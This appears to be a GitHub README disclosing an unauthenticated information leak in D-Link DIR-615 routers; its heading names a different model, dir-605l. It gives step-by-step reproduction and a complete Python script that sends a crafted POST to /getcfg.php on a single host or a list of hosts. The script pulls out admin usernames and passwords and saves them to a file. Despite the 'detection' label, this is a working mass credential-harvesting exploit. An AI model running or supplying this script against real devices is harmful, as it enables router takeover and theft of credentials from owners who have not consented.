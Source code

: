 # D-LINK-DIR-615
## Sensitive information disclosure vulnerability in D-Link dir-605l Hardware Version : Q1 Firmware Version : 17.00

Sensitive information disclosure vulnerability exists in D-Link dir-615 Hardware Version : Q1 Firmware Version : 17.00. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-615 background login page

![image](https://user-images.githubusercontent.com/90023952/131967300-7de24cb6-2c48-4c29-9e80-c89ca244ccd4.png)

2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131959858-ace71dc7-41c0-4f25-852d-ecc01f2016fd.png)

3.Use the obtained user name and password to successfully log in to the background

![image](https://user-images.githubusercontent.com/90023952/131960031-dc264f90-9e09-48df-9e01-b0860fc3d637.png)

## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-615-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-615.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131964546-cfb63863-5e3e-46a0-a237-94076f6a47d2.png)

2. Batch inspection

python D-LINK-DIR-615.py -r file.txt

![image](https://user-images.githubusercontent.com/90023952/131964614-304bcbfe-3938-4375-93ae-da72ee297b54.png)

After the batch detection script is executed, a file named "dir-615-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password

![image](https://user-images.githubusercontent.com/90023952/131964740-c30b05a7-86e2-4345-8b10-a63e82d6df98.png)

![image](https://user-images.githubusercontent.com/90023952/131964819-83b55c78-5dc5-48a7-b62a-acab7258a838.png)




